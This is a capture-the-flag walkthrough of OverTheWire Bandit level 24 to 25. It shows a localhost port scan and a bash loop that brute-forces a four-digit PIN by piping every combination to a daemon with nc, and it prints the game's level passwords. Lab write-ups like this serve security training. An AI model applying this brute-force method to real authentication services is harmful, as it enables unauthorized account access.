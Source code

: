 # Bandit Level 24 → Level 25

## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

##Solution
Brute Force attack is a cryptographic hack. Also known as an Exhaustive Search, it relies on calculating and submitting every possible password combination with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.

```                                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -p 2220 bandit24@bandit.labs.overthewire.org
```

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

```
bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Linux bandit.otw.local 5.4.8 x86_64 GNU/Linux
```
      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org
```

Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames.
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with
  easily guessable or short names will be periodically deleted!

  Please play nice:

    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS!
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * gef (https://github.com/hugsy/gef) in /usr/local/gef/
    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

```
bandit24@bandit:~$ nmap -p- localhost                             #to check if localhost is listening at 30002
                                                                  #you can specify -p- to scan ports from 1 through 65535
Starting Nmap 7.40 ( https://nmap.org ) at 2022-02-11 10:11 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
113/tcp   open  ident
1234/tcp  open  hotline
30000/tcp open  ndmps
30001/tcp open  pago-services1
30002/tcp open  pago-services2                                    #the localhost is listening at 30002
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.53 seconds
```
### Note1: In the challenge it is told that along with the password for bandit24, a 4 digit passcode (obtained using brute-force) should be produced to the localhost through port 30002. So write a script to append the 4 digit passcode with the bandit24 password. This script is written in the file basefile.sh and the final password appended with passcode is redirected to the file combinations.txt.

```
bandit24@bandit:~$ mkdir /tmp/dirbandit24                            #create a directory dirbandit24 under temp

bandit24@bandit:~$ cd /tmp/dirbandit24                               #navigate to dirbandit24

bandit24@bandit:/tmp/dirbandit24$ vim basefile.sh                    #create and open a file named basefile.sh using vim
                                                                     #press i for insert mode in vim
                                                                     #type the below script in it
                                                                     #!/bin/bash
                                                                     #for i in {0000..9999};
                                                                     #    do
                                                                     #        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt
                                                                     #    done
    
                                                                     #press Esc to get into command mode
                                                                     #run :wq to save and close the vim


bandit24@bandit:/tmp/dirbandit24$ cat basefile.sh                    #read the created file to verify its contents 
#!/bin/bash

for i in {0000..9999};                                                        #generate 0000 to 9999, each digit in each iteration                                                                     
    do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt        #append the generated passcode with bandit24 password and redirect it to the file combinations.txt in each iteration
    done
    
bandit24@bandit:/tmp/dirbandit24$ chmod +x basefile.sh                 #provide execute permission for basefile.sh

bandit24@bandit:/tmp/dirbandit24$ ./basefile.sh                        #execute the file basefile.sh

bandit24@bandit:/tmp/dirbandit24$ head -n 5 combinations.txt           #to see the first 5 entries of combinations.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
```
### Note2: Send the contents of the file to localhost at port 30002, which inturn will produce the password to the next level when the correct passcode is received. this output is redirected to result.txt file.
```
bandit24@bandit:/tmp/dirbandit24$ cat combinations.txt | nc localhost 30002 >> result.txt   

bandit24@bandit:/tmp/dirbandit24$ sort result.txt | uniq -u            #since there is only one passcode that can provide the password, sort and find the unique output

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

bandit24@bandit:/tmp/dirbandit24$ rm -rf /tmp/dirbandit24              #delete the created directory

bandit24@bandit:/tmp/dirbandit24$ exit                                 #logout of bandit.labs.overthewire.org
logout
Connection to bandit.labs.overthewire.org closed.
```                  
#### vim text editor
```
vim            -> Open vim
vim <fileName> -> Open file using vim or create and open the file with vim
i              -> Switch to insert mode & Enter some text
Esc            -> Switch back to command mode
:w             -> Save changes to file
:q             -> Quit Vim
```
